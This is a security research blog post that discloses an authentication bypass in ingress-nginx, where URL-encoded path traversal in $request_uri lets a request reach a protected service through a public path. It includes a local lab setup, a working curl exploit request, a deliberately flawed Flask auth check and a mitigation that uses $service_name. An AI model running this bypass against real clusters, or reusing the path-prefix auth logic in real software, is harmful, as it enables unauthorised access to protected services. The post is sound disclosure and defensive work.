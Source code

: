 ```yaml
---
title: "External Authentication bypass in ingress-nginx"
date: 2022-05-29T16:59:02+01:00
draft: false
tags: [kubernetes, ingress, nginx, path-traversal]
description: "In October 2021 I was researched ingress-nginx for possibility to bypass external authentication using path traversal. It was origin story for other investigations regarding insecure usage of $request_uri which leaded to Apache APISIX CVE-2021-43557."
---
```


{{< figure src="https://user-images.githubusercontent.com/17719543/170878532-514c01cc-aa97-42b2-adba-f61a155d9863.png" class="image-center" >}}

In October 2021 I was researched [ingress-nginx](https://kubernetes.github.io/ingress-nginx/) for possibility to bypass external authentication using path traversal. It was origin story for other investigations regarding insecure usage of `$request_uri` which leaded to [Apache APISIX CVE-2021-43557](https://apisix.apache.org/blog/2021/11/23/cve-2021-43557-research-report/). I have started with report on HackerOne to Kubernetes project: https://hackerone.com/reports/1357948. It took long time for the team to investigate it, but in the end I got some bounty 😏 sadly report was closed as informative. They asked me to create normal [issue](https://github.com/kubernetes/ingress-nginx/issues/8644) in github as this behavior is considered as **not security issue**. For me this is still an issue of **insecure design**.

Just look on values of `X-Original-Url` and `X-Auth-Request-Redirect` that are send to external auth service:
```
X-Request-Id: 7d979c82ca55141ed0d58655fbaac586
Host: auth-service.default.svc.cluster.local
X-Original-Url: http://app.test/public-service/..%2Fprotected-service/protected
X-Original-Method: GET
X-Sent-From: nginx-ingress-controller
X-Real-Ip: 192.168.99.1
X-Forwarded-For: 192.168.99.1
X-Auth-Request-Redirect: /public-service/..%2Fprotected-service/protected
Connection: close
User-Agent: curl/7.75.0
Accept: */*
```

Root cause of the problem, is how nginx is handling `$request_uri` variable. It's documented very "frugal":

{{< figure src="https://user-images.githubusercontent.com/17719543/170879498-1cca915f-9c5f-45f3-a6fc-fdfc97ff22a2.png" class="image-center" >}}

For me it's not enough. There should be brought documentation of risks associated with consuming not normalized paths. After pointing it out to nginx team, I got response that it's obvious that `$request_uri` is not normalized and developers should take care of their projects 😕. This would be perfect world, but we are not living in such. Just compare it with documentation in [envoy](https://www.envoyproxy.io):

* [rejecting-client-requests-with-escaped-slashes](https://www.getambassador.io/docs/edge-stack/latest/topics/running/ambassador/#rejecting-client-requests-with-escaped-slashes) - although it's not directly for Emissary. It's describing well envoy concerts for escaped slashes
* [GHSA-xcx5-93pw-jw2w](https://github.com/envoyproxy/envoy/security/advisories/GHSA-xcx5-93pw-jw2w) (CVE-2019–9901) - description of risks associated with normalizing paths in envoy
* [envoy http connection manager options](https://www.envoyproxy.io/docs/envoy/latest/api-v3/extensions/filters/network/http_connection_manager/v3/http_connection_manager.proto) - look for two particular: `normalize_path` and `path_with_escaped_slashes_action`

**If you thinks similar. Put your comment in https://github.com/kubernetes/ingress-nginx/issues/8644**

## Setting the stage

### install ingress-nginx into Kubernetes:

```bash
helm upgrade --install ingress-nginx ingress-nginx \
  --repo https://kubernetes.github.io/ingress-nginx \
  --namespace ingress-nginx --create-namespace
```

In case of problems follow [official guide](https://kubernetes.github.io/ingress-nginx/deploy/).

### deploy test application

```bash
kubectl apply -f \
  https://raw.githubusercontent.com/xvnpw/k8s-ingress-auth-bypass/master/app.yaml
```

### [optional] forward ingress port

```bash
kubectl port-forward service/ingress-nginx-controller \ 
  -n ingress-nginx 8080:80
```

### verify services

First public service. It should be available without authentication:

```bash
$ curl http://127.0.0.1:8080/public-service/public -H "Host: app.test"
{"data":"public data"}
```

and now protected:

```bash
$ curl http://127.0.0.1:8080/protected-service/protected  -H "Host: app.test"
<html>
<head><title>401 Authorization Required</title></head>
<body>
<center><h1>401 Authorization Required</h1></center>
<hr><center>nginx</center>
</body>
</html>

$ curl http://127.0.0.1:8080/protected-service/protected \
  -H "X-Api-Key: secret-api-key" -H "Host: app.test"
{"data":"protected data"}
```

as you can see I need to provide "secret-api-key" to get resource.

## Exploitation

Let's send request with path traversal

```bash
$ curl \
  --path-as-is http://127.0.0.1:8080/public-service/../protected-service/protected 
  -H "Host: app.test"
{"data":"protected data"}
```

As you can see, I was able to bypass uri restrictions 😄

## Authentication service

Of course **not all** authentication services will be vulnerable. Only those that are making specific decisions based on requested paths. In my case service looks like this:

```python
@app.route('/verify')
def verify():
    print(request.headers, file=sys.stderr)
    api_key = request.headers.get('X-Api-Key')
    request_redirect = request.headers.get('X-Auth-Request-Redirect')

    if request_redirect and request_redirect.startswith("/public-service/"):
        return Response(status = HTTPStatus.NO_CONTENT)

    if api_key == "secret-api-key":  
        return Response(status = HTTPStatus.NO_CONTENT)

    return Response(status = HTTPStatus.UNAUTHORIZED)
```

and ingress is defined as:

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    kubernetes.io/ingress.class: "nginx"
    nginx.ingress.kubernetes.io/rewrite-target: /$1
    nginx.ingress.kubernetes.io/auth-url: http://auth-service.default.svc.cluster.local:8080/verify
spec:
  rules:
    - host: app.test
      http:
        paths:
          - path: /public-service/(.*)
            pathType: Prefix
            backend:
              service:
                name: public-service
                port:
                  number: 8080
          - path: /protected-service/(.*)
            pathType: Prefix
            backend:
              service:
                name: protected-service
                port:
                  number: 8080
```

### Mitigation

One thing is to not trust content of `X-Original-Uri` and `X-Auth-Request-Redirect` headers. But there is also nice variable that can be used: `$service_name`

```yaml
apiVersion: networking.k8s.io/v1
kind: Ingress
metadata:
  name: my-ingress
  annotations:
    nginx.ingress.kubernetes.io/rewrite-target: /$1
    nginx.ingress.kubernetes.io/auth-url: http://auth-service.default.svc.cluster.local:8080/verify
    nginx.ingress.kubernetes.io/configuration-snippet: |
      more_set_input_headers "X-Forwarded-Scheme: $scheme";
      more_set_input_headers "X-Forwarded-Uri: $uri";
      more_set_input_headers "X-Forwarded-Prefix: $service_name";
      more_set_input_headers "X-Forwarded-Host: $http_host";
```

it allows to get name of service in kubernetes that is targeted by request and pass it to `auth-url`. This way it's not manipulated!

## Summary

I'm really happy that I have asked myself what is `X-Auth-Request-Redirect` header 🙂 This question took me for nice adventure, where I have checked source code of several ingress controllers. 

What is sad is how nginx is considering `$request_uri` and how hard is to convince both nginx and ingress-nginx team that this is real security problem.

Whole code of this example is here https://github.com/xvnpw/k8s-ingress-auth-bypass.

### Other articles from this series

* [CVE-2021-43557: Apache APISIX: Path traversal in request_uri variable]({{< ref "/posts/CVE_2021_43557_Apache_APISIX_Path_traversal_in_request_uri_variable.md" >}})
* [Path traversal in authorization context in Traefik and HAProxy]({{< ref "/posts/path_traversal_in_authorization_context_in_Traefik_and_HAProxy.md" >}})
* [Path traversal in authorization context in Emissary]({{< ref "/posts/path_traversal_in_authorization_context_in_Emissary.md" >}})
* [Path traversal in authorization context in Kong and F5 NGINX]({{< ref "/posts/path_traversal_in_authorization_context_in_Kong_and_F5_NGINX.md" >}})
* [Bug bounty tips for nginx $request_uri path traversal bypass]({{< ref "/posts/bug_bounty_tips_for_nginx_request_uri_path_traversal_bypass.md" >}})
* [Hunting for buggy authentication/authorization services on github]({{< ref "/posts/hunting_for_buggy_authentication_authorization_services_on_github.md" >}})

---

Thanks for reading! You can follow me on [Twitter](https://twitter.com/xvnpw).
